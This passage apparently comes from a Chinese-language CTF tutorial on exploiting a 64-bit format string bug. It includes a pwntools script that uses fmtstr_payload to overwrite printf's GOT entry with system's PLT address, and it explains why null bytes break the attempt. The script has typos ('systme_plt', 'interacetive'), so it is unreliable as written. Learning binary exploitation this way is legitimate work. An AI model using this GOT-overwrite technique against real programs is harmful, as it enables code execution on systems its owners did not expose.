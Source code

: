 调试时可以发现输入在栈顶

![Alt](img/format_x86-64(3).png)

但是64位的传参顺序是rdi, rsi, rdx, rcx, r8, r9，接下来才是栈，所以这里的偏移应该是6而不是0
有了偏移，got表中的printf和plt表中的system也可以直接从程序中获取，我们就可以使用fmtstr_payload来生成payload了

```python
    offset = 6
    printf_got = 0x00601020
    systme_plt = 0x00400460

    payload = fmtstr_payload(offset,{printf_got:system_plt})
    p = process('./format_x86-64')
    p.sendline(payload)
    p.interacetive()
```

运行并发现并不能修改got表中的printf项为plt的system，回头看看payload，很容易发现紧接在\x20\x10\x60三个字符后面的是\x00，而\x00正是字符串结束符号

![Alt](img/format_x86-64(4).png)

